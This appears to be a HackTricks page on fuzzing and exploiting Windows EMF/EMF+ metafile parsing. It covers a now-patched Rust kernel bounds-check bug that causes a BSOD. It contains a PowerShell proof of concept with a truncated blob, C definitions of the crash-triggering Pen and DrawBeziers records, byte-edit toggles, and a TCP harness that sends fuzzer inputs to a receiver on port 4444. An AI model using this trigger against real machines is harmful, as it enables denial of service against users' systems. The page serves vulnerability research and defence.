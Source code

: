 # EMF/WMF/EMF+ Tricks (GDI/Win32k exploitation & fuzzing)

{{#include ../../../banners/hacktricks-training.md}}

EMF (Enhanced Metafile) is a compact stream of GDI commands. EMF+ embeds GDI+ records inside EMF via EMR_COMMENT_EMFPLUS and can pack multiple EMF+ records in a single EMF record. The rich record set and compactness make EMF/EMF+ a powerful target for fuzzing and for reaching privileged kernel parsing paths through common user-mode drawing APIs.

Key pipeline during playback (Windows 11 24H2):
- GDI/EMF+/GDI+ shapes are widened and flattened in user/kernel transitions.
- The resulting outline is converted to a REGION in kernel space, implemented in Rust in win32kbase_rs.sys for 24H2 client SKUs.
- Outlines are represented as a singly linked list of edge blocks maintained in a global edge table. Incorrect geometry or malformed paths can stress this edge management.

Impact (example bug class): A crafted EMF+ can cause a bounds-check failure in the Rust REGION conversion path (RegionCore_set_from_path ➜ region_from_path_mut), tripping core::panicking::panic_bounds_check() and raising a SYSTEM_SERVICE_EXCEPTION (BSOD). This is a reliable kernel DoS from low integrity via user-mode drawing APIs.

Note: Windows Server SKUs do not include the Rust REGION component as of the fix timeline discussed below.

## Practical exploitation/fuzzing notes

- Seed selection: Include EMF+ seeds so the fuzzer reaches deeper GDI+/EMF+ record handling (e.g., EmfPlusDrawBeziers, EmfPlusDrawPath, Pen/Brush objects).
- Record packing: EMF+ records can be packed inside EMR_COMMENT_EMFPLUS, and multiple records may be grouped – ideal for mutational fuzzing that flips Flags, Counts, Sizes, and appends/removes points.
- Crash durability at scale: If using SHM mode and a RAM-disk queue, a BSOD will wipe in-flight mutations. Add a tiny exfiltration channel in the harness to persist every mutation before executing it (see code below). Additionally, use MemProcFS forensic mode on full memory dumps to recover the RAM-disk queue after BugCheck.

### Reliable user-mode path to the kernel REGION conversion

Although Graphics::FromImage() is documented for drawable Image objects (e.g., Bitmap), passing a Metafile is accepted and reaches the vulnerable path-to-region code when DrawImage() is invoked. This allows a low-integrity user to trigger kernel REGION conversion on both x86 and x64.

PowerShell PoC that loads a base64-embedded EMF+ and plays it through System.Drawing:

```powershell
Add-Type -AssemblyName System.Drawing;
Add-Type -AssemblyName System.Windows.Forms;

$b = [Convert]::FromBase64String("AQAAAGw...NAAA=");  # EMF+/EMF blob

$s = [System.IO.MemoryStream]::new($b)
$f = New-Object System.Windows.Forms.Form
$g = [System.Drawing.Graphics]::FromHwnd($f.Handle)
$h = $g.GetHdc()
$m = New-Object System.Drawing.Imaging.Metafile($s, $h)

$mg = [System.Drawing.Graphics]::FromImage($m)
$mg.DrawImage([System.Drawing.Image]::FromStream($s),0,0)
```

## Trigger anatomy: wide Pen + mutated EmfPlusDrawBeziers

A reliable BSOD was obtained by combining:
- A Pen object configured to force a very wide stroke during playback, and
- An EmfPlusDrawBeziers record with 17 absolute points while the nominal Count field remains 4 (ignored by the code path), stressing path parsing and edge generation.

When widened/flattened and converted to a region, the resulting edge-block layout allowed an internal index to surpass its upper bound in win32kbase_rs!region_from_path_mut, which deliberately panics on bound check failure (Rust behavior). Call chain observed in triage:

NtGdiSelectClipPath ➜ Win32kRS::RegionCore_set_from_path() [win32kbase.sys] ➜ Win32kRS::RegionCore_set_from_path() [win32kbase_rs.sys] ➜ region_from_path_mut() ➜ core::panicking::panic_bounds_check().

For reference, example record shapes used in the crash case:

<details>
<summary>EMF+ Pen object forcing a wide stroke</summary>

```c
EmfPlusObject pen = {
    .Type                 = 0x4008,     // EmfPlusObject
    .Flags                = 0x0200,     // EmfPlusPen
    .Size                 = 0x00000030,
    .DazaSize             = 0x00000024,
    .ObjectData = {
        .Version          = 0xDBC01002, // EMF+
        .Type             = 0x42200000, // PenDataNonCenter, PenDataStartCap
        .PenDataFlags     = 0x00000202, // UnitTypeInch
        .PenUnit          = 0x00000004,
        .PenWidth         = 0xFFFFFFEE,
        .OptionalData = {
            .StartCap     = 0x0000FC05,
            .PenAlignment = 0x0051E541
        }
    }
};
```

</details>

<details>
<summary>EMF+ DrawBeziers with 17 absolute points (nominal Count ignored)</summary>

```c
EmfPlusDrawBeziers beziers = {
    .Type      = 0x4019,
    .Flags     = 0x00D6,      // C=1, P=0, ObjectID=0x36
    .Size      = 0x00000050,  // 80 bytes
    .DataSize  = 0x00000044,  // 68 bytes
    .Count     = 0x00000004,  // nominal count (ignored)
    // PointData is read as EmfPlusPoint objects with absolute coordinates.
    .PointData[17] = {
        { 0xE63D, 0x0000 },   // (-6595 ,     0)
        { 0xFC05, 0x0000 },   // (-1019 ,     0)
        { 0xE541, 0x0051 },   // (-6847 ,    81)
        { 0x0049, 0x7FFF },   // (   73 , 32767)
        { 0x004C, 0x1400 },   // (   76 ,  5120)
        { 0x4008, 0x0202 },   // (16392 ,   514)
        { 0x0067, 0x0000 },   // (  103 ,     0)
        { 0x1002, 0xDBC0 },   // ( 4098 , -9280)
        { 0x001C, 0x0000 },   // (   28 ,     0)
        { 0x0010, 0x0000 },   // (   16 ,     0)
        { 0x1002, 0xDBC0 },   // ( 4098 , -9280)
        { 0x0001, 0x0000 },   // (    1 ,     0)
        { 0x0060, 0x4008 },   // (   96 , 16392)
        { 0x0003, 0x0000 },   // (    3 ,     0)
        { 0x0000, 0x4600 },   // (    0 , 17920)
        { 0x0000, 0x0100 },   // (    0 ,   256)
        { 0x004C, 0x0000 }    // (   76 ,     0)
    }
};
```

</details>

### Minimization/confirmation toggles

The following byte-level edits avoid the buggy geometry, useful both to minimize and confirm the condition:
- Flip C/P flags to read PointData as EmfPlusPointF: `$b[0x15f]=0;`
- Increase `Size` to append a flat point: `$b[0x160]=84; $b=$b[0..351]+(0,0,0,0)+$b[352..($b.Length-1)];`
- Decrease `DataSize` to 64 to drop the last point: `$b[0x164]=64;`

## Harness trick: persist every mutation despite BSODs

When fuzzing kernel paths with WinAFL in SHM mode, use a minimal TCP sender inside the harness to exfiltrate every mutation (4‑byte size header + raw data) to a threaded receiver that stores inputs and periodically zips them. This preserves the exact crashing input across BugChecks.

<details>
<summary>Client (C, Winsock)</summary>

```c
int send_data(char* data, uint32_t size) {
    WSADATA wsa; SOCKET s; struct sockaddr_in server; wchar_t ip_address[] = L"192.168.1.1";
    server.sin_family = AF_INET; server.sin_port = htons(4444);
    if (WSAStartup(MAKEWORD(2,2), &wsa)!=0) return 1;
    if ((s=socket(AF_INET, SOCK_STREAM, 0))==INVALID_SOCKET){WSACleanup();return 1;}
    if (InetPton(AF_INET, ip_address, &(server.sin_addr))!=1){closesocket(s);WSACleanup();return 1;}
    if (connect(s,(struct sockaddr*)&server,sizeof(server))<0){closesocket(s);WSACleanup();return 1;}
    uint32_t size_header = htonl(size);
    if (send(s,(char*)&size_header,sizeof(size_header),0)<0){closesocket(s);WSACleanup();return 1;}
    if (send(s,data,size,0)<0){closesocket(s);WSACleanup();return 1;}
    closesocket(s); WSACleanup(); return 0; }
```

</details>

<details>
<summary>Server (Python, threaded; zips every 5k files)</summary>

```python
#!/usr/bin/env python3
import os, socket, zipfile, threading
from concurrent.futures import ThreadPoolExecutor
file_counter=0; file_counter_lock=threading.Lock(); zip_counter=1

def handle_client(cs, addr):
    global file_counter, zip_counter
    data_size=int.from_bytes(cs.recv(4),'big')
    data=bytearray()
    while len(data)<data_size:
        pkt = cs.recv(min(1024, data_size-len(data)))
        if not pkt: break
        data.extend(pkt)
    with file_counter_lock:
        file_counter+=1; name=f"id_{file_counter:06d}"; print(f"Received {file_counter}")
    open(name,"wb").write(data)
    if file_counter % 5000 == 0:
        zip_name=f"archive_{zip_counter:03d}.zip"
        with zipfile.ZipFile(zip_name,'w') as z:
            for i in range(file_counter-4999, file_counter+1):
                z.write(f"id_{i:06d}"); os.remove(f"id_{i:06d}")
        zip_counter+=1
    cs.close()

def main():
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.bind(("0.0.0.0",4444)); s.listen(5)
    with ThreadPoolExecutor(max_workers=20) as ex:
        print("[*] Waiting for incoming connections...")
        while True: cs, addr = s.accept(); ex.submit(handle_client, cs, addr)
main()
```

</details>

Notes:
- Keep harness I/O outside the measured target loop so it doesn’t distort WinAFL performance metrics.
- If you use a RAM-disk for the fuzzer queue, MemProcFS forensic mode can mount a full memory dump and auto-discover the RAM-disk volume to recover queued inputs post-crash.

## Detection and triage

- BugCheck: SYSTEM_SERVICE_EXCEPTION during or after GDI operations.
- Stack often includes: `NtGdiSelectClipPath → win32kbase_rs!region_from_path_mut → core::panicking::panic_bounds_check`.
- Quick user-mode repro path: System.Drawing Graphics::FromImage(Metafile) + DrawImage().
- Triage helpers: BugId for rapid crash classification; memory carve of the fuzzer queue via MemProcFS when Volatility-based extraction is cumbersome.

## Mitigations / versions

- Fixed in Windows 11 24H2 starting OS Build 26100.4202 (KB5058499 preview, 2025‑05‑28). Rollout completed July 2025 cumulative updates.
- Internal changes (as observed): GlobalEdgeTable::add_edge() split into add_edge_original() / add_edge_new(); the new path is bounds-hardened and behind a feature-gate (Feature_Servicing_Win32kRSPathToRegion_IsEnabled()).
- Avoid trusting EMF/EMF+ from untrusted sources; sanitize or block. Avoid feeding Metafile objects into Graphics::FromImage() in untrusted workflows.

## Tooling for campaigns at scale

- Fuzzer: WinAFL (shared-memory mode `-s`) with a small initial corpus including EMF+.
- Orchestrator: WinAFL Pet to manage multi-instance runs and monitoring.
- Crash triage: BugId.
- Queue recovery: MemProcFS forensic mode to discover and extract the RAM-disk queue from full memory dumps after BugCheck.

## References

- [Checkpoint Research – Denial of Fuzzing: Rust in the Windows kernel](https://research.checkpoint.com/2025/denial-of-fuzzing-rust-in-the-windows-kernel/)
- [WinAFL](https://github.com/googleprojectzero/winafl)
- [WinAFL Pet](https://github.com/sgabe/winaflpet)
- [BugId](https://github.com/SkyLined/BugId)
- [MemProcFS](https://github.com/ufrisk/MemProcFS)

{{#include ../../../banners/hacktricks-training.md}}
